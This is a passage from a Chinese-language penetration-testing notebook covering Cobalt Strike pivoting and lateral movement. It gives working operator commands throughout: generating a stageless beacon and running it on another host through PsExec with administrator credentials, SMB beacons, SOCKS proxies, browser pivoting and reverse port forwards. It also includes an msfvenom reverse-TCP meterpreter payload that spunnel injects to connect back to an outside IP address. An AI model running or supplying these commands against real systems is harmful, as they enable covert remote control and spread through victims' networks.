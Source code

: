 #### 权限机中转
	Pivoting ->Listener新建一条已有权限机器的监听器
![image](/assets/Pentest_Note/master/img/233.png)
![image](/assets/Pentest_Note/master/img/234.png)
![image](/assets/Pentest_Note/master/img/235.png)

	选择 Attacks->Packages->Windows Executable(Stageless) 
![image](/assets/Pentest_Note/master/img/236.png)

	上传生成的payload到已上线的目标机中，上传PsExec.exe
	beacon>shell C:\psexec.exe -accepteula \\10.1.1.105 -u administrator -p xxx -d -c C:\beacon.exe
![image](/assets/Pentest_Note/master/img/237.png)
#### SMB_beacon
	新建监听器(bind)windows/beacon_smb/bind_pipe
	执行
	>psexec 机器名 ADMIN$/c$ bind
#### SSH login
	>ssh 10.1.1.98:22 root admin
![image](/assets/Pentest_Note/master/img/238.png)

	在你的 teamserver 的给定端口上启动一个 SOCKS 服务器，通过指定的 Beacon 传输流量。 在 /etc/proxychains.conf 中设置 teamserver/port 配置以方便使用		
	beacon > socks [PORT]
	通过指定的 Internet Explorer 进程代理浏览器流量
	beacon > browserpivot [pid] [x86|x64]

	绑定到 Beacon 主机上的指定端口，并将任何传入的连接转发到被转发的主机和端口
	beacon > rportfwd [bind port] [forward host] [forward port]

	spunnel : 生成一个代理并创建一个到其控制器的反向端口转发隧道
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
	beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

	spunnel_local: 生成一个代理并创建一个反向端口转发，通过您的 Cobalt Strike 客户端隧道传输到其控制器
	然后你可以在你的 MSF multi handler上处理连接
	beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin